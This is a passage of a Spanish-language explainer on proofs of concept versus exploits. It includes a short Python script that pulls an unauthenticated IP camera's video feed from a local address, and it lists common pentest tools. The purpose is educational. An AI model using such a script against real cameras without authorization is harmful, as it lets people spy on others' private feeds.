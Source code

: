 
### 🧠 Ejemplo real 3: PoC de vulnerabilidad en dispositivos IoT

Un investigador encuentra que una cámara IP de uso doméstico permite el acceso remoto sin autenticación.

🔍 **PoC:** Con un simple script en Python, accede al feed de video:

```python
import requests

url = "http://192.168.1.105/video"
response = requests.get(url)
with open("output.mp4", "wb") as f:
    f.write(response.content)
```

Eso bastaba para demostrar que **cualquier persona en la red podía espiar la cámara** sin login → grave problema de seguridad.

---

### 🧰 Herramientas comunes usadas para PoC

- `curl`, `wget`, `nmap`, `Metasploit`, `Burp Suite`, `Python`, `PowerShell`
    
- Scripts personalizados
    
- Documentación técnica (Markdown, PDF, video, captura de pantalla)
    

---

### 👨‍💻 ¿Quién crea PoCs?

- Investigadores de seguridad
    
- Hackers éticos (pentesters, red team)
    
- Desarrolladores que descubren errores
    
- Grupos como ZDI, Project Zero, etc.
    

---

### 🔐 PoC ≠ Exploit

Un **PoC** demuestra que la vulnerabilidad existe.  
Un **exploit** ya es una herramienta o código totalmente desarrollado para **explotar** esa vulnerabilidad, muchas veces con fines ofensivos o maliciosos.

---

### ✅ En resumen:

|PoC (Proof of Concept)|Exploit|
|---|---|
|Demuestra que una vulnerabilidad existe|Aprovecha esa vulnerabilidad para causar daño|
|Controlado y con fines éticos|Puede ser malicioso o ilegal|
|No siempre automatizado|Automatizado para facilitar el ataque|

---